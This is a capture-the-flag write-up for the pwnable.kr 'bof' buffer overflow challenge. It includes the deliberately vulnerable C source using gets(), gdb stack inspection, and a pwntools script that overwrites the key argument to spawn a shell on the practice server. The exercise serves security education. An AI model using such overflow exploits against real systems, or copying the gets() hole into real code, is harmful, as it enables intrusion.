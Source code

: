 # Introduction

When we see the tittle and the description, we suppose that we have to exploit a buffer overflow

This program is may be a md5 replication where we will exploit collision.
# Testing the binary.

```bash
./bof
overflow me : 
test
Nah..

/bof
overflow me : 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Nah..
*** stack smashing detected ***: terminated
[1]    7144 IOT instruction (core dumped)  ./bof 

```

we need to input the payload after executing the program.
# C code Analysis

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>

void func(int key){

	char overflowme[32];
	printf("overflow me : ");
	
	gets(overflowme);	// smash me!
	
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```
## main() function

the argument `0xdeadbeef` is passed to the `func()` function.
## func() function

```c
void func(int key){

	char overflowme[32];
	printf("overflow me : ");
	
	gets(overflowme);	// smash me!
	
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
```

the user input is put to the `overflowme` var off 32 bytes
if the argument key is `0xcafebabe`, we win
## How to exploit it

To exploit this, we need to change key from `0xdeadbeef` to `0xcafebabe`. for that we need to know the number of byte to to fill `overflowme` et the offset to go to `key`.

we know thar `overflowme` need 32 bytes but lets verifies this.

I opened my gdb and put a breakpoint on the compare instruction on the `func()` function to see the stack before and run with "AAAA" input.

let's check the $esp register :

```gdb
x/40xw $esp
0xffffca70:	0xffffca8c	0xffffcd9b	0x00000002	0x0000001c
0xffffca80:	0xf7ffcfe8	0x00000018	0x00000000	0x41414141
0xffffca90:	0xf7fc7500	0xf7fc7000	0x00000000	0x00000000
0xffffcaa0:	0x00000000	0x00000000	0x00000000	0x9c686700
0xffffcab0:	0xffffffff	0xf7d7c96c	0xffffcad8	0x5655569f
0xffffcac0:	0xdeadbeef	0x00000000	0x00000000	0x00000000
```

we must put 12 group of 4 bytes before changing `key`
# Exploiting

here my exploit script :

```python
from pwn import *

app = remote('pwnable.kr', 9000)

offset = 52

payload = b'A' * offset
payload += p32(0xcafebabe)

app.sendline(payload)
app.interactive()
```
## Getting the flag

```bash
python3 exploit.py
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ cat flag
******************************
```

we get flag !

